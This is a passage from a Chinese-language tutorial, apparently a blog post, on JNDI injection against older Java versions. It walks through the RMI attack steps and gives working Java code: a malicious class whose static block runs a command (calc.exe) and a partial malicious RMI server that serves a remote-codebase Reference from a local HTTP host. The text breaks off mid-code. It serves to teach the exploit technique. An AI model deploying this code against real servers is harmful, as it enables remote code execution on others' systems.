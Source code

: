 > 为什么需要`ReferenceWrapper`包装呢？
> 
> 被Registry绑定的对象必须继承UnicastRemoteObject类，而Reference类并没有实现这个类，所以无法被直接绑定

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211212154638.png)

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211212154716.png)

JNDI注入8u191↓
------------

通常JNDI注入攻击都是 lookup方法的执行者，一般步骤如下：

1. 目标机器调用了`InitialContext.lookup("URL")`，且URL为用户可控
2. 攻击者控制这个URL为一个恶意的RMI服务地址：`rmi://{ip}/{port}/name`
3. 恶意RMI服务会返回一个含有恶意factory的Reference对象
4. 目标获取Reference之后会动态加载factory
5. 攻击者可以在恶意factory的静态代码块，构造方法写入恶意代码，在目标实例化factory的时候被RCE

当然，通常会有两种实现方式：LDAP和RMI

### RMI（8u121）

我们先创建一个恶意的类，让服务器托管这个恶意的类

```java
import java.io.IOException;

public class Exp {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```

使用javac进行编译，放置于服务器

这里要注意一下，要用低版本的jdk进行编译，如果用高版本jdk编译会出现如下问题

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211216102905.png)

当我换了jdk进行编译(jdk版本更换工具推荐 jevn)

然后编写Server端的代码

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.io.IOException;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference =  new Reference("Exp","Exp","http://127.0.0.1:8000/");
```